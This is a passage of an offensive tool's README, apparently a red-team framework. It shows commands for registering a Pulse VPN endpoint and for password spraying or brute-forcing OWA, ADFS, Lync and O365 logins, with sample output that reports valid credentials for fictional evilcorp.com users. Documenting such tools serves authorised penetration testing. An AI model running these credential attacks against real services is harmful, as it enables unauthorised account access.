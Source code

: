 ```
```

##### Manually add a VPN endpoint

To manually add VPN endpoints, of course, specifying the top level domain would probably not be enough.
The correct way would be to specify a specific subdomain along with the specific port the VPN Web Server is 
running on.

```
python manage.py -w workspace1 vpn -c add -D vpn.evilcorp.com:443

[+] vpn.evilcorp.com:443 is a pulse target!
```

#### Perform a password spray or bruteforce attack against OWA, ADFS, LYNC, or O365

To perform a password spray or even bruteforce attack, the only required 
resource is a password list in the form of a text file, with one password 
per line.

```
python manage.py -w workspace1 office -c attack -P passwords.txt

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : owa
1 : lync
2 : imap
3 : adfs
4 : o365
5 : all
 $> 4
[*] Running O365Enumerator
  [-] elliot.alderson@evilcorp.com:MrRobot2021! is not valid.
  [+] tyrell.wellick@evilcorp.com:Joanna2021! is valid!
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```


[1]: https://github.com/byt3bl33d3r/SprayingToolkit